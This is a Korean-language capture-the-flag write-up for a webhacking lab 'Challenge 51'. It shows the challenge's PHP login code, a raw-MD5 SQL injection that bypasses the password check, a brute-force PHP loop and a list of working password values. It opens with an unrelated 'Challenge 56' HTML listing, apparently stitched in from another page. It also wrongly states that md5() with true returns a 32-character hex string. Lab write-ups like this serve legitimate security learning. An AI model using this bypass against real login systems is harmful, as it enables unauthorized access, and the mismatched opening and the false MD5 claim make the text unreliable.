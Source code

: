 #51
===

<div class="colorscripter-code" style="color:#f0f0f0;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important; position:relative !important;overflow:auto"><table class="colorscripter-code-table" style="margin:0;padding:0;border:none;background-color:#272727;border-radius:4px;" cellspacing="0" cellpadding="0"><tr><td style="padding:6px;border-right:2px solid #4f4f4f"><div style="margin:0;padding:0;word-break:normal;text-align:right;color:#aaa;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="line-height:130%">1</div><div style="line-height:130%">2</div><div style="line-height:130%">3</div><div style="line-height:130%">4</div><div style="line-height:130%">5</div><div style="line-height:130%">6</div><div style="line-height:130%">7</div><div style="line-height:130%">8</div><div style="line-height:130%">9</div><div style="line-height:130%">10</div><div style="line-height:130%">11</div><div style="line-height:130%">12</div><div style="line-height:130%">13</div><div style="line-height:130%">14</div></div></td><td style="padding:6px 0;text-align:left"><div style="margin:0;padding:0;color:#f0f0f0;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#f0f0f0">&lt;</span><span style="color:#ff3399">html</span><span style="color:#f0f0f0">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#f0f0f0">&lt;</span><span style="color:#ff3399">head</span><span style="color:#f0f0f0">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#f0f0f0">&lt;</span><span style="color:#ff3399">title</span><span style="color:#f0f0f0">&gt;</span>Challenge&nbsp;56<span style="color:#f0f0f0">&lt;</span><span style="color:#f0f0f0">/</span><span style="color:#ff3399">title</span><span style="color:#f0f0f0">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#f0f0f0">&lt;</span><span style="color:#f0f0f0">/</span><span style="color:#ff3399">head</span><span style="color:#f0f0f0">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#f0f0f0">&lt;</span><span style="color:#ff3399">body</span><span style="color:#f0f0f0">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#f0f0f0">&lt;</span><span style="color:#ff3399">center</span><span style="color:#f0f0f0">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#f0f0f0">&lt;</span><span style="color:#ff3399">h2</span><span style="color:#f0f0f0">&gt;</span>B&nbsp;O&nbsp;A&nbsp;R&nbsp;D<span style="color:#f0f0f0">&lt;</span><span style="color:#f0f0f0">/</span><span style="color:#ff3399">h2</span><span style="color:#f0f0f0">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#f0f0f0">&lt;</span><span style="color:#ff3399">br</span><span style="color:#f0f0f0">&gt;</span><span style="color:#f0f0f0">&lt;</span><span style="color:#ff3399">br</span><span style="color:#f0f0f0">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#f0f0f0">&lt;</span><span style="color:#ff3399">table</span>&nbsp;<span style="color:#a8ff58">border</span>=<span style="color:#a8ff58">1</span><span style="color:#f0f0f0">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#f0f0f0">&lt;</span><span style="color:#ff3399">tr</span><span style="color:#f0f0f0">&gt;</span><span style="color:#f0f0f0">&lt;</span><span style="color:#ff3399">td</span><span style="color:#f0f0f0">&gt;</span>no<span style="color:#f0f0f0">&lt;</span><span style="color:#f0f0f0">/</span><span style="color:#ff3399">td</span><span style="color:#f0f0f0">&gt;</span><span style="color:#f0f0f0">&lt;</span><span style="color:#ff3399">td</span><span style="color:#f0f0f0">&gt;</span>id<span style="color:#f0f0f0">&lt;</span><span style="color:#f0f0f0">/</span><span style="color:#ff3399">td</span><span style="color:#f0f0f0">&gt;</span><span style="color:#f0f0f0">&lt;</span><span style="color:#ff3399">td</span><span style="color:#f0f0f0">&gt;</span>subject<span style="color:#f0f0f0">&lt;</span><span style="color:#f0f0f0">/</span><span style="color:#ff3399">td</span><span style="color:#f0f0f0">&gt;</span><span style="color:#f0f0f0">&lt;</span><span style="color:#ff3399">td</span><span style="color:#f0f0f0">&gt;</span>secret<span style="color:#f0f0f0">&lt;</span><span style="color:#f0f0f0">/</span><span style="color:#ff3399">td</span><span style="color:#f0f0f0">&gt;</span><span style="color:#f0f0f0">&lt;</span><span style="color:#f0f0f0">/</span><span style="color:#ff3399">tr</span><span style="color:#f0f0f0">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#f0f0f0">&lt;</span><span style="color:#ff3399">tr</span><span style="color:#f0f0f0">&gt;</span><span style="color:#f0f0f0">&lt;</span><span style="color:#ff3399">td</span><span style="color:#f0f0f0">&gt;</span>1<span style="color:#f0f0f0">&lt;</span><span style="color:#f0f0f0">/</span><span style="color:#ff3399">td</span><span style="color:#f0f0f0">&gt;</span><span style="color:#f0f0f0">&lt;</span><span style="color:#ff3399">td</span><span style="color:#f0f0f0">&gt;</span>admin<span style="color:#f0f0f0">&lt;</span><span style="color:#f0f0f0">/</span><span style="color:#ff3399">td</span><span style="color:#f0f0f0">&gt;</span><span style="color:#f0f0f0">&lt;</span><span style="color:#ff3399">td</span><span style="color:#f0f0f0">&gt;</span><span style="color:#f0f0f0">&lt;</span><span style="color:#ff3399">a</span>&nbsp;<span style="color:#a8ff58">href</span>=<span style="color:#a8ff58">?read</span>=<span style="color:#a8ff58">admin</span><span style="color:#f0f0f0">&gt;</span>readme<span style="color:#f0f0f0">&lt;</span><span style="color:#f0f0f0">/</span><span style="color:#ff3399">a</span><span style="color:#f0f0f0">&gt;</span><span style="color:#f0f0f0">&lt;</span><span style="color:#f0f0f0">/</span><span style="color:#ff3399">td</span><span style="color:#f0f0f0">&gt;</span><span style="color:#f0f0f0">&lt;</span><span style="color:#ff3399">td</span><span style="color:#f0f0f0">&gt;</span>1<span style="color:#f0f0f0">&lt;</span><span style="color:#f0f0f0">/</span><span style="color:#ff3399">td</span><span style="color:#f0f0f0">&gt;</span><span style="color:#f0f0f0">&lt;</span><span style="color:#f0f0f0">/</span><span style="color:#ff3399">tr</span><span style="color:#f0f0f0">&gt;</span><span style="color:#f0f0f0">&lt;</span><span style="color:#ff3399">tr</span><span style="color:#f0f0f0">&gt;</span><span style="color:#f0f0f0">&lt;</span><span style="color:#ff3399">td</span><span style="color:#f0f0f0">&gt;</span>2<span style="color:#f0f0f0">&lt;</span><span style="color:#f0f0f0">/</span><span style="color:#ff3399">td</span><span style="color:#f0f0f0">&gt;</span><span style="color:#f0f0f0">&lt;</span><span style="color:#ff3399">td</span><span style="color:#f0f0f0">&gt;</span>guest<span style="color:#f0f0f0">&lt;</span><span style="color:#f0f0f0">/</span><span style="color:#ff3399">td</span><span style="color:#f0f0f0">&gt;</span><span style="color:#f0f0f0">&lt;</span><span style="color:#ff3399">td</span><span style="color:#f0f0f0">&gt;</span><span style="color:#f0f0f0">&lt;</span><span style="color:#ff3399">a</span>&nbsp;<span style="color:#a8ff58">href</span>=<span style="color:#a8ff58">?read</span>=<span style="color:#a8ff58">guest</span><span style="color:#f0f0f0">&gt;</span>hi~<span style="color:#f0f0f0">&lt;</span><span style="color:#f0f0f0">/</span><span style="color:#ff3399">a</span><span style="color:#f0f0f0">&gt;</span><span style="color:#f0f0f0">&lt;</span><span style="color:#f0f0f0">/</span><span style="color:#ff3399">td</span><span style="color:#f0f0f0">&gt;</span><span style="color:#f0f0f0">&lt;</span><span style="color:#ff3399">td</span><span style="color:#f0f0f0">&gt;</span>0<span style="color:#f0f0f0">&lt;</span><span style="color:#f0f0f0">/</span><span style="color:#ff3399">td</span><span style="color:#f0f0f0">&gt;</span><span style="color:#f0f0f0">&lt;</span><span style="color:#f0f0f0">/</span><span style="color:#ff3399">tr</span><span style="color:#f0f0f0">&gt;</span><span style="color:#f0f0f0">&lt;</span><span style="color:#f0f0f0">/</span><span style="color:#ff3399">table</span><span style="color:#f0f0f0">&gt;</span><span style="color:#f0f0f0">&lt;</span><span style="color:#ff3399">form</span>&nbsp;<span style="color:#a8ff58">method</span>=<span style="color:#a8ff58">post</span><span style="color:#f0f0f0">&gt;</span>search&nbsp;:&nbsp;<span style="color:#f0f0f0">&lt;</span><span style="color:#ff3399">input</span>&nbsp;<span style="color:#a8ff58">name</span>=<span style="color:#a8ff58">search</span>&nbsp;<span style="color:#a8ff58">size</span>=<span style="color:#a8ff58">50</span>&nbsp;<span style="color:#a8ff58">maxlength</span>=<span style="color:#a8ff58">50</span><span style="color:#f0f0f0">&gt;</span><span style="color:#f0f0f0">&lt;</span><span style="color:#ff3399">input</span>&nbsp;<span style="color:#a8ff58">type</span>=<span style="color:#a8ff58">submit</span><span style="color:#f0f0f0">&gt;</span><span style="color:#f0f0f0">&lt;</span><span style="color:#f0f0f0">/</span><span style="color:#ff3399">form</span><span style="color:#f0f0f0">&gt;</span><span style="color:#f0f0f0">&lt;</span><span style="color:#f0f0f0">/</span><span style="color:#ff3399">body</span><span style="color:#f0f0f0">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#f0f0f0">&lt;</span><span style="color:#f0f0f0">/</span><span style="color:#ff3399">html</span><span style="color:#f0f0f0">&gt;</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div></div><div style="text-align:right;margin-top:-13px;margin-right:5px;font-size:9px;font-style:italic"><a href="http://colorscripter.com/info#e" target="_blank" style="color:#4f4f4ftext-decoration:none">Colored by Color Scripter</a></div></td><td style="vertical-align:bottom;padding:0 2px 4px 0"><a href="http://colorscripter.com/info#e" target="_blank" style="text-decoration:none;color:white"><span style="font-size:9px;word-break:normal;background-color:#4f4f4f;color:white;border-radius:10px;padding:1px">cs</span></a></td></tr></table></div>

로그인 페이지가 보인다.

![](https://postfiles.pstatic.net/MjAyMDAxMThfNDUg/MDAxNTc5MzUwMzMxMzMx.MUAlmp7cW64yuZDZxfRTkcp2FbBoGiWEm_WrmYnOXC0g.nP0tOnX9R8oV4Kh4t2QB0metBZkQdu5e63gp9rjiIzog.JPEG.rlaeoghks823/K-037.jpg?type=w773)

id와 pw에 아무거나쳐봤다.

![](https://postfiles.pstatic.net/MjAyMDAxMThfMTY5/MDAxNTc5MzUwMzM0MzU4.n8rMYBKzZflnpu_hho8QJMEySTfY-EPUClMacv1faxkg.9FMj9b9VNwrpnyN5xKSmetLp9WcV6wH0Xt8WSIwaEc8g.JPEG.rlaeoghks823/K-038.jpg?type=w773)

wrong이라는 문구가 뜨고 끝이다.

어떤 방식으로 해결해야할지 실마리를 얻기 위해 소스 코드를 봐보았다.

```
<?php
  include "../../config.php";
  if($_GET['view_source']) view_source();
?><html>
<head>
<title>Challenge 51</title>
<style>
table{ color:lightgreen;}
</style>
</head>
<body bgcolor=black><br><br>
<font color=silver>
<center><h1>Admin page</h1></center>
</font>
<?php
  if($_POST['id'] && $_POST['pw']){
    $db = dbconnect();
    $input_id = addslashes($_POST['id']);
    $input_pw = md5($_POST['pw'],true);
    $result = mysqli_fetch_array(mysqli_query($db,"select id from chall51 where id='{$input_id}' and pw='{$input_pw}'"));
    if($result['id']) solve(51);
    if(!$result['id']) echo "<center><font color=green><h1>Wrong</h1></font></center>";
  }
?>
<br><br><br>
<form method=post>
<table border=0 align=center bgcolor=gray width=200 height=100>
<tr align=center><td>ID</td><td><input type=text name=id></td></tr>
<tr align=center><td>PW</td><td><input type=password name=pw></td></tr>
<tr><td colspan=2 align=center><input type=submit></td></tr>
</table>
<font color=silver>
<div align=right><br>.<br>.<br>.<br>.<br><a href=./?view_source=1>view-source</a></div>
</font>
</form>
</body>
</html>
```

눈에 띄는 코드는 다음과 같다.

```
$input_pw = md5($_POST['pw'],true);
    $result = mysqli_fetch_array(mysqli_query($db,"select id from chall51 where id='{$input_id}' and pw='{$input_pw}'"));
    if($result['id']) solve(51);
```

먼저 md5라는 함수에서 pw값을 md5값으로 바꿔준다. 

인자를 true로 주면 16진수 32글자로된 md5 해시값의 문자열을 반환해준다. 

문제를 해결하기 위해 아래와 같은 과정이 필요하다.

pw에 `어떤 값1 = 어떤 값2`라는걸 넣어주면  
pw = 어떤 값1 = 어떤 값2가 된다.

여기서  
pw = 어떤 값1 -> 거짓

어떤 값2도 문자이므로 거짓이다.

따라서 거짓=거짓 으로 인해 pw='{$input_pw}'는 참이 된다.

그래서 md5로 인코딩 했을 때 나오는 값이 '='이 든 값을 찾기 위해서 아래와 같은 코드를 구했다.

```
<?php
for($i=0;$i<10000000;$i++){
	if(strstr(md5($i,true),"'='")){
		echo ("$i, ");
	}
}
```

이로써 나온 값은 `1839431, 2584670, 2632003, 2998869, 4939073, 5263117, 5273607, 5872358, 7201387, 8930081, 9235566,` 이였고 이중 값 하나를

pw에 넣어주니 문제가 해결되었다.
